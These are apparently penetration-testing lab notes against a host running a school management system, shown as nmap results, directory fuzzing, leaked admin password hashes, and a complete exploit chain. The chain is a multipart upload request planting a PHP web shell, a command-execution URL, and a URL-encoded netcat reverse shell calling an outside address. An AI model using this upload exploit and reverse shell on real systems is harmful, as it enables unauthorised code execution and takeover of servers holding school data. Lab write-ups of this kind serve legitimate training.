

____


> [!info]
> IP=192.168.247.13

# Nmap
| PORT | STATE | SERVICE |
| ---- | ---- | ---- |
| 22/tcp | open | ssh |
| 80/tcp | open | http |

```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Wisdom Elementary School
```

## 80 - http

### Fuzzing

```txt
/assets
/management
/vendor
```

/management
- gosfem community edition


```txt
/uploads
/assets
/js
/dist
/installation
```

```txt
http://192.168.247.13/management/installation/sql/database.sql
```


admin@admin.com:7110eda4d09e062aa5e4a390b0a572ac0d2c0220
udemy@udemy.com:7110eda4d09e062aa5e4a390b0a572ac0d2c0220



https://www.exploit-db.com/exploits/50587

```python
POST /management/admin/examQuestion/create HTTP/1.1
Host: 192.168.247.13
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------183813756938980137172117669544
Content-Length: 1343
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1

-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="name"

test4
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="class_id"

2
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="subject_id"

5
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="timestamp"

2021-12-08
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="teacher_id"

1
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="file_type"

txt
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="status"

1
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="description"

123123
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="_wysihtml5_mode"

1
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="file_name"; filename="cmd.php"
Content-Type: application/octet-stream

<?php system($_GET["cmd"]); ?>
-----------------------------183813756938980137172117669544--
```


```txt
http://192.168.247.13/management/uploads/exam_question/cmd.php?cmd=whoami
```

```bash
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20192.168.45.168%204444%20%3E%2Ftmp%2Ff
```
